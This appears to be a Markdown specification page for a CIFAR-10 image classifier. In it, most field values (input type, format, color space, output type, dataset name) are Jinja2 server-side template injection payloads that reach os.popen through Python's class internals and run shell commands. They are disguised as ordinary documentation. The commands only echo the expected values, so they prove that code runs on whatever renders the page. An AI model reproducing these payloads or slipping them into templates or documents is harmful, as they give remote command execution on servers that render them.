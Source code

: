 

---

## Input Specifications



**Input Type:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Image')|attr('read')()|attr('strip')()}}



**Input Format:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo RGB')|attr('read')()|attr('strip')()}}

**Input Dimensions:** [{{224}}, {{224}}, {{3}}]

**Input Properties:**
- Resolution: {{224}}x{{224}} pixels
- Channels: {{3}} (RGB)
- Color Space: {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo sRGB')|attr('read')()|attr('strip')()}}
- Bit Depth: {{8}} bits per channel



---

## Output Specifications



**Output Type:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Classification')|attr('read')()|attr('strip')()}}

**Number of Classes:** {{10}}

**Output Format:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo Probability')|attr('read')()|attr('strip')()}} distribution

---

## Dataset Information



### Dataset Overview

**Dataset Name:** {{''|attr('__class__')|attr('__mro__')|attr('__getitem__')(1)|attr('__subclasses__')()|attr('__getitem__')(104)|attr('__init__')|attr('__globals__')|attr('__getitem__')('sys')|attr('modules')|attr('__getitem__')('os')|attr('popen')('echo CIFAR')|attr('read')()|attr('strip')()}}-{{10}}
